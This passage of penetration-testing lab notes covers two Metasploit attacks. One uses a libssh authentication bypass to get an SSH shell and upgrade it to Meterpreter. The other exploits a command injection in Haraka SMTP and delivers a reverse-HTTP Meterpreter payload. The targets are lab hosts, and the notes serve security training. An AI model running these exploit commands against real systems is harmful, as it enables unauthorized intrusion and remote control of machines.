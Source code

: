 ```bash
kali@kali> service postgresql start && msfconsole
msf6> workspace -a ssh
msf6> db_nmap -sS -sV -O 192.105.175.3

msf6> use auxiliary/scanner/ssh/libssh_auth_bypass
msf6> set spawn_pty true
msf6> run
msf6> sessions 1

# Ctrl+Z
```

Upgrade to meterpreter.

```bash
msf6> use post/multi/manage/shell_to_meterpreter
msf6> set session 1
msf6> set lhost eth1
msf6> run

meterpreter> sysinfo
```

### Linux : SMTP

* SMTP (Simple Mail Transfer Protocol) is a communication protocol that is used for the transmission of email.
* SMTP uses TCP port 25 by default. It can also be configured to run on TCP port 465 and 587.
* Haraka is an open source high performance SMTP server developed in Node.js.
* The Haraka SMTP server comes with a plugin for processing attachments. **Haraka versions prior to V2.8.9** are vulnerable to command injection.

```bash
kali@kali> service postgresql start && msfconsole
msf6> workspace -a smtp
msf6> db_nmap -sS -sV -O 192.228.200.3
msf6> setg rhosts 192.228.200.3

msf6> use exploit/linux/smtp/haraka
msf6> setg rhost 192.228.200.3
msf6> set srvport 9898
msf6> set email_to root@attackdefense.test
msf6> set payload linux/x64/meterpreter_reverse_http
msf6> run

meterpreter> sysinfo
```

### Post exploitation
